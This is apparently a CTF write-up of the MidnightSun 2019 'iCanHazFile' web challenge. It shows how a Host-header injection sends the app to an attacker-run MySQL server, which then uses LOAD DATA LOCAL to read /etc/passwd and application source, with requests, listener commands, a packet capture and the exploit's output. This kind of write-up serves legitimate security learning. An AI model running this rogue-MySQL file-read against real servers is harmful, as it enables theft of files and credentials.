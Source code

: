 # MidnightSun CTF 2019 Finals 
## iCanHazFile - 1003 points

Author: @avlidienbrunn
Category: web pwned!
Solves: 6
Second Blood!

### Description

I forgot my login to this health care system. The swedish cough is the worst...
settings Service: http://icanhazfile-01.play.midnightsunctf.se:3002/

### Analysis

In the next challenge we find a Login panel. It only recognizes admin as a valid
user.

Analyzing the web we realize that changing the host header gives an error
connection to the database:

```
GET /login HTTP/1.1
Host: icanhazfile-01.play.midnightsunctf.se:3002
```

```
GET /login HTTP/1.1
Host: 163.172.175.139

/app/app.py: could not connect to database
```

We open a port in 3306 to see if we receive any connection and see that does not
connect, with Burp Collaborator we see that receives a DNS request, with the
subdomain: database.ip.com, create a subdomain and raise the port with nc.

```
GET /login HTTP/1.1
Host: borjmz.com
```

```
root@midnightsun:~# nc -lvp 3306
listening on [any] 3306 
connect to [10.64.180.121] from ... [52.208.15.104] 36136
```

What we're trying to do is set up a MySQL server to see if it gives us back
information about the tables or something useful to continue with the
exploitation, seeing that we don't receive the data we need, we think about
other options, we find a writeup of the CTF Volga2018
(https://github.com/balsn/ctf_writeup/tree/master/20180324-volgactf)
where the same bug is exploited.

http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/

We put a tcpdump to the listening and we receive the connection of the SQL:

```.... .... 1... .... = Can Use LOAD DATA LOCAL: Set

Client Capabilities: 0xa285
.... .... .... ...1 = Long Password: Set
.... .... .... ..0. = Found Rows: Not set
.... .... .... .1.. = Long Column Flags: Set
.... .... .... 0... = Connect With Database: Not set
.... .... ...0 .... = Don't Allow database.table.column: Not set
.... .... ..0. .... = Can use compression protocol: Not set
.... .... .0.. .... = ODBC Client: Not set
.... .... 1... .... = Can Use LOAD DATA LOCAL: Set
.... ...0 .... .... = Ignore Spaces before '(': Not set
.... ..1. .... .... = Speaks 4.1 protocol (new flag): Set
.... .0.. .... .... = Interactive Client: Not set
.... 0... .... .... = Switch to SSL after handshake: Not set
...0 .... .... .... = Ignore sigpipes: Not set
..1. .... .... .... = Knows about transactions: Set
.0.. .... .... .... = Speaks 4.1 protocol (old flag): Not set
1... .... .... .... = Can do 4.1 authentication: Set
```
### Exploitation

We tested the balsn exploit and made some modifications.

```
root@midnightsun:~# python3 mysql_exploit.py /etc/passwd```
```[+] Trying to bind to 0.0.0.0 on port 3306: Done```
```[+] Waiting for connections on 0.0.0.0:3306: Got connection from * on port 36150```

```b'\xb7\x00\x00\x01\x85\xa2\xbf\x01\x00\x00\x00\x01\x08\x00\x00\x00\x00\x00\x00```
```\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00root\x00\x14```
```\xc9!~\xc8\xd1t\xf3B\x17\x0c:\x99\x08\x89\x8f\xaf\x8a\xc3l?mysql_native_password```
```\x00f\x03_os\x05Linux\x0c_client_name\x08libmysql\x04_pid\x0525131\x0f```
```_client_version\x065.7.26\t_platform\x06x86_64\x0cprogram_name\x05mysql'```
```b'!\x00\x00\x00\x03select @@version_comment limit 1'```
```b'\xd7\x04\x00\x02```
```root:x:0:0:root:/root:/bin/bash\n```
```daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n```
```bin:x:2:2:bin:/bin:/usr/sbin/nologin\n```
```sys:x:3:3:sys:/dev:/usr/sbin/nologin\n```
```sync:x:4:65534:sync:/bin:/bin/sync\n```
```games:x:5:60:games:/usr/games:/usr/sbin/nologin\```
```nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n```
```lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n```
```mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n```
```news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n```
```uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n```
```proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n```
```www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n```
```backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n```
```list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n```
```irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\n```
```gnats:x:41:41:Gnats :/var/lib/gnats:/usr/sbin/nologin\n```
```nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n```
```systemd-timesync:x:100:102:,,,:/run/systemd:/bin/false\n```
```systemd-network:x:101:103::/run/systemd/netif:/bin/false\n```
```systemd-resolve:x:102:104::/run/systemd/resolve:/bin/false\n```
```systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false\n```
```_apt:x:104:65534::/nonexistent:/bin/false\n\x00\x00\x00\x03'

[*] Closed connection to 52.208.15.104 port 36150
```

We receive the output of /etc/password, read /app/app.py to get the source code
of the web, we try to read the typical files of the system to get more
information and so it seems we are inside a chroot, after trying several files
without success we go back to the source code of the app and see the next line:

```
def database(host):
 host = shellquote(host)
 password = os.getenv('MYSQL_ROOT_PASSWORD')
 nonce = '.join(random.choice(string.ascii_lowercase) for i in range(10))
 cmd = "timeout 1 mysql -uroot -p"+password+" -h"+host+" -e
 'SELECT \""+nonce+"\" AS nonce, name, password from flag.users limit 1'" 
```

We set up a MySQL server with the necessary tables to bypass the admin and get
the flag.


Many thanks to all the [ID-10-T](https://twitter.com/id10t_ctf) team and especially to Uri, Javi, HansTopo and
Alfredo. Also to [@HackingForSoju](https://twitter.com/hackingforsoju) the organizers of the challenges

Challenge resolved by [Borjmz](https://twitter.com/qm9yamfn) and [HansTopo](https://twitter.com/_dreadlocked)

Borja

